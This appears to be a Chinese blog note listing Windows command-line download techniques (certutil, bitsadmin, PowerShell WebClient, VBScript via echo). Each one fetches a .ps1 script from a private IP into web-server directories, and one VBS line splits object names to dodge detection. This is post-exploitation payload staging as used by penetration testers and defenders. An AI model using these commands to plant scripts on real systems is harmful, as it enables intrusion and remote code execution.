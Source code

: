 在**windows**的环境下，dos窗口里有以下多个命令支持**下载**。最常用的有powershell、vbs、certutil、bitadmin等命令。

### certutil

```
certutil -urlcache -split -f http://192.168.203.140/b.ps1
```

适用于server 2003以上版本
详情参考：
[https://docs.microsoft.com/en-us/previous-versions/orphan-topics/ws.10/cc773087(v=ws.10)?redirectedfrom=MSDN](https://links.jianshu.com/go?to=https%3A%2F%2Fdocs.microsoft.com%2Fen-us%2Fprevious-versions%2Forphan-topics%2Fws.10%2Fcc773087(v%3Dws.10)%3Fredirectedfrom%3DMSDN)

### bitsadmin

```
bitsadmin /transfer myDownLoadJob /download /priority normal "http://192.168.203.140/b.ps1" "E:\\phpstudy_pro\\WWW\\b.ps1"
```

适用于**windows** 7以上版本。
详情参考：
[https://docs.microsoft.com/zh-cn/**windows**/win32/bits/bitsadmin-tool?redirectedfrom=MSDN](https://links.jianshu.com/go?to=https%3A%2F%2Fdocs.microsoft.com%2Fzh-cn%2Fwindows%2Fwin32%2Fbits%2Fbitsadmin-tool%3Fredirectedfrom%3DMSDN)

### powershell

```
powershell (new-object Net.WebClient).DownloadFile('http://192.168.203.140/a.ps1','E:\phpstudy_pro\WWW\a.ps1')
```

适用于**windows** 7以上版本。

### vbs

第一种把**下载**地址直接echo输入download.vbs。直接**下载**即可。

```
echo Set Post = CreateObject("Msxml2.XMLHTTP") >>download.vbs
echo Set Shell = CreateObject("Wscript.Shell") >>download.vbs
echo Post.Open "GET","http://192.168.203.140/a.ps1",0 >>download.vbs
echo Post.Send() >>download.vbs
echo Set aGet = CreateObject("ADODB.Stream") >>download.vbs
echo aGet.Mode = 3 >>download.vbs
echo aGet.Type = 1 >>download.vbs
echo aGet.Open() >>download.vbs
echo aGet.Write(Post.responseBody) >>download.vbs
echo aGet.SaveToFile "D:/a.ps1",2 >>download.vbs
```

第二种保存脚本后再**下载**指定**文件**。

```
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2  >> downfile.vbs
cscript downfile.vbs http://192.168.203.140/a.ps1 D:\\tomcat8.5\\webapps\\x.ps1
```

适用于server 2003 以上版本